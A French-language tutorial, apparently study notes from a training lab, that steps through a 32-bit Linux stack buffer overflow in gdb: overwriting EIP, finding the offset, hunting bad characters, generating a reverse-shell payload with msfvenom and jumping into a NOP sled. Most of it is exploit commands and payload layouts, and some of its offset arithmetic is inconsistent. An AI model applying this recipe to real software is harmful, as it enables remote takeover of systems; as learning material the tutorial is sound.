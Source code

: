 n**Take Controle of EIP**

Avec `gdb`, envoyer un nombre important de 'A' au programme jusqu'a obtenir une erreur soit (`SIGSEGV, Segementation fault`)

```sh
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) run $(python2 -c "print 'A' * 1200")
```

A partir des informations du registre `info registers`, verifier que nous avons bien ecrit sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

---

**Finding the offset**

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour écrasé sur `EIP`

```sh
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```sh
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouver l'`offset` correspondant.

```sh
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note `offset`.

---

**Determine the Length for Shellcode**

Apres avoir trouver l'`offset` , nous devons maintenant découvrir de combien d’espace nous disposons pour que notre reverse shell

nous avons besoin de :

```sh
   Buffer = "A" * (offset - 100 - 150 - 4)
     NOPs = "\x90" * 4
Shellcode = "\x44" * 50
      EIP = "\x66" * 4
```

```sh
(gdb) run $(python2 -c 'print "A" * (54 - 100 - 150 - 4) + "\x90" * 4 + "B" * 50 + "\x66" * 4')
```

Verifier que nous controllons `EIP` et qu'il a une nouvelle valeur soit `0x66666666`.

---

**Find bad caracter**

Une fois que nous controllons l'`EIP`, nous devons identifier les mauvais caractères

Nous utilisons cette liste de caractères  pour connaître tous les caractères que nous devons prendre en compte et éviter lors de la génération de notre shellcode.

Cette chaîne fait `256`  octets

```sh
$CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

echo $CHARS | sed 's/\\x/ /g' | wc -w
```

Nous devons donc recalculer notre tampons

```sh
Buffer = "A" * (offset - 256 - 4)
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

Maintenant il faut mettre un point d'arrêt au niveau de la fonction vulnerable pour que l'exécution s'arrête à ce stade, et nous puissions analyser le contenu de la mémoire.

```sh
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

Maintenant, nous pouvons exécuter l’entrée nouvellement créée et consulter la mémoire.

```sh
(gdb) run $(python2 -c 'print "A" * (54 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

Après avoir exécuté notre tampon avec les mauvais caractères et atteint le point d'arrêt, nous pouvons examiner la pile.

```sh
(gdb) x/2000xb $esp+500
```

> Descendre plus bas et chercher le point final de `A` et le point de départ de `CHARS`

Nous voyons où se termine notre `A` et où commence la variable `CHARS`

> Noter tout les caractères qui saute l'ordre de `CHARS`, supprimer le de `CHARS` et ajuster le numéro de `CHARS` en retirant `-1` soit : `Buffer = "A" * (offset - (256 - n) - 4)` puis **rexécuter**

**Ce processus doit être répété jusqu'à ce que tous les caractères susceptibles d'interrompre le flux soient supprimés.**

> [!NOTE] Generalement nous devont verifier le `\x00` qui nous indique que ce caractère n'est pas autorisé ici et doit être supprimé en conséquence.


Ces caractères noter sera notre `bad characters`

---

**Generating Shellcode**

```sh
msfvenom --platform linux -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=4444 -f c -b "<badchars>" -o shellcode.c
```

Maintenant que nous avons notre shellcode, nous l'ajustons pour n'avoir qu'une seule chaîne, puis nous pouvons adapter et soumettre à nouveau notre simple exploit.

```sh
   Buffer = "A" * (offset - 124 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4
```

```sh
(gdb) run $(python -c 'print "\x55" * (offset - 124 - 95 - 4) + "\x90" * 4 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

Ensuite, nous vérifions si les premiers octets de notre shellcode correspondent aux octets après le NOPS.

Aller a la fin des `NOPs` et obsever le debut du shellcode

```sh
(gdb) x/2000xb $esp+550
```

---

**Identification of the Return Address**

Après avoir vérifié que nous contrôlons toujours l'EIP avec notre shellcode, nous avons maintenant besoin d'une adresse mémoire où se trouvent nos NOP pour dire à l'EIP d'y accéder.

Cette adresse mémoire ne doit contenir aucun des mauvais caractères que nous avons trouvés précédemment.

```sh
(gdb) x/2000xb $esp+1400
# 0xffffd644: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd64c: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd654: 0x90  0x90  0x90  0x90  0x90  0x90  0x90  0x90
# 0xffffd65c: 0x90  0x90  0xda  0xca  0xba  0xe4  0x11  0xd4
```

Ici, il faut maintenant choisir une adresse à laquelle on se réfère `EIP`

Après avoir sélectionné une adresse mémoire, nous remplaçons notre " `\x66`" qui écrase l'EIP pour lui dire de passer à l'adresse selectionner. (`0xffffd64c`)

Notez que la saisie de l'adresse selectionner est saisie à l'envers.
 
```sh
   Buffer = "A" * (offset - 100 - 95 - 4)
     NOPs = "\x90" * 4
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = \x4c\xd6\xff\xff"
```

> **Executer le programme pour obtenir un reverse shell**

```sh
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

